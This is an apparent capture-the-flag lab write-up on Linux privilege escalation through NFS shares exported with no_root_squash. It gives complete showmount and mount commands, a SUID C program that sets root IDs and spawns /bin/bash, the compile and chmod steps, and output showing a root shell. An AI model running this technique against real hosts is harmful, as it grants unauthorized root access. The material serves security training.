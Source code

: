 ```
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```
* `no_root_squash` option is critical element for privilege escalation.
* NSF changes root user to nsfnobody and strips any file from operation with root privileges by default.
* Can create executable with SUID bit set and run it on target if 1no_root_squash1 is preent on writable share.
* Enumerate mountable shares from attacking machine.
```
showmount -e 10.10.91.21
Export list for 10.10.91.21:
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
```
* Mount one of the `no_root_squash` shares to the attacking machine.
```
mkdir /tmp/sharedfolder
mount -o rw 10.10.91.21:/home/ubuntu/sharedfolder /tmp/sharedfolder
```
* Create C executable to run `/bin/bash` on target.
1. `nano nfs.c`.
```
int main()
{
   setgid(0);
   setuid(0);
   system("/bin/bash");
   return 0;
}
```
2. CTRL+X to save and close.
3. Compile the code (must be run as sudo).
```
sudo gcc nfs.c -o nfs -w
sudo chmod +s nfs
ls -l nfs
-rwsr-sr-x 1 root root 8392 Feb 13 14:46 nfs
```
* Copy files to target.
```
cp /root/nfs /root/nfs.c /tmp/sharedfolder
```
* Navigate to the `/home/ubuntu/sharedfolder' from the target and execute the "nfs" file.
```
cd /home/ubuntu/sharedfolder
id
uid=1001(karen) gid=1001(karen) groups=1001(karen)
./nfs
id
uid=0(root) gid=0(root) groups=0(root),1001(karen)
```
* Root shell achieved. 
## Capstone Challenge
> You have gained SSH access to a large scientific facility. Try to elevate your privileges until you are Root.